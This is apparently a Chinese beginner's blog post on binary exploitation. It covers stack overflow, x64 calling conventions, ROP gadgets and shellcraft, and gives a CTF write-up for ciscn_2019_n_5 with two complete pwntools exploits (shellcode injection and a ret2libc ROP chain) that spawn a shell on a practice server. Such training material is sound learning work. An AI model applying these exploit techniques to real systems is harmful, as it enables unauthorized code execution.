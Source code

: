 ```yaml
---
layout: post
title: pwn入门
subheading: 栈溢出相关知识
author: xyccq
categories: 无
tags: Pwn
---
```


#### 栈溢出

​	暂时无时间记录，等以后有时间了补上。

#### 函数传参（x86与x64的区别）：

​	x86的参数都保存在栈上面，而x64中的前6个参数依次保存在RDI, RSI, RDX, RCX, R8和R9中，如果还有更多的参数时才会保存在栈上。

​	因此在64位的程序上，要寻找pop rdi;ret这样的指令来进行传参。如何找到这些指令呢，用ROPgadget这个工具。

```ROPgadget --binary ./filename --only "pop|ret"```

​	这个指令具体怎么用，有时间自习研究一番继续补上。

​	当我们得到了pop rdi;ret指令的地址后，就可以构造payload，例如下面

```python
payload = padding + p64(pop_rdi) + p64(bin_addr) + p64(sys_addr)
```

​	这里相当于将bin_addr的内容作为pop参数移入rdi寄存器中，然后ret返回，继续执行system函数，并将rdi中的内容作为system的参数，即可执行system('bin\sh')从而getshell。（暂时是这么理解，如果有错误请师傅指正，以后如果发现理解错了再返回来修改...）



#### shellcode

用```asm(shellcraft.sh())```该函数能自动生成shellcode，在一些RWX段可以直接写入并接在后面运行。

注：在使用这个函数前，一定用```context.arh="xxx"```写明程序架构。



#### 一道例题（ciscn_2019_n_5)

​	一道有RWX段的例题，做完后看了一遍感觉也能泄露libc来做。于是写了两种解法，权当练手了。虽然ret2text/libc这种大家都会的东西已经很少作为比赛题出现了，但毕竟咱作为新手还是要从基础开始学，多练练总是有益无害的。下面是两种做法：

##### 1.

IDA打开看看代码

<img src="C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20201129200355940.png" alt="image-20201129200355940" style="zoom:67%;" />

看见程序有两处输入，发现name在.bss段上，用vmmap查看该段是RWX段。

<img src="C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20201129200605666.png" alt="image-20201129200605666" style="zoom: 67%;" /> <img src="C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20201129200717199.png" alt="image-20201129200717199" style="zoom: 67%;" />

第二次输入用了gets函数，显然存在栈溢出，那么第一种解法已经呼之欲出了，写exp如下

```python
from pwn import *
#context.log_level = 'debug'
context.arch = 'amd64'
#p = process('./ciscn_2019_n_5')
p = remote('node3.buuoj.cn',28497)
bss_addr = 0x601080
p.sendline(asm(shellcraft.sh()))
padding = b'a'*(0x20+0x8)
payload = padding + p64(bss_addr)
p.sendline(payload)
p.interactive()
```

用```asm(shellcraft.sh())```生成shellcode并写入name，栈溢出执行该段代码即可getshell

##### 2.

代码分析如1，同时注意到程序中有puts函数，那么应该可以泄露出put的地址，那么就可以用LibcSearcher找到对应libc版本，从而计算出libc的基址，也即setoff。那么就能找到system函数以及字符串bin/sh的地址，构造ROP链即可getshell。直接上代码

```python
from pwn import *
from LibcSearcher import *
#context.log_level = 'debug'
context.arch = 'amd64'
#p = process('./ciscn_2019_n_5')
p = remote('node3.buuoj.cn',27811)
elf = ELF('./ciscn_2019_n_5')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret = 0x00000000004004c9
pop_rdi = 0x0000000000400713
main = 0x400636
p.sendline('1')

payload = b'a'*(0x20+0x8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendline(payload)
print(p.recvuntil('me?\n'))
puts_addr = u64(p.recv(7)[:-1].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
setoff = puts_addr - libc.dump('puts')
sys_addr = setoff + libc.dump('system')
bin_addr = setoff + libc.dump('str_bin_sh')

p.sendline('1')
print(p.recv())
print(p.recvuntil('me?\n'))
payload2 = b'a'*(0x20+0x8) + p64(pop_rdi) + p64(bin_addr) + p64(ret) + p64(sys_addr)
p.sendline(payload2)
p.interactive()
```

其中payload2中的ret用于平衡栈（具体原理等我搞明白了回来填坑，反正ubuntu18版本及以上如果不能getshell就加个ret试试）。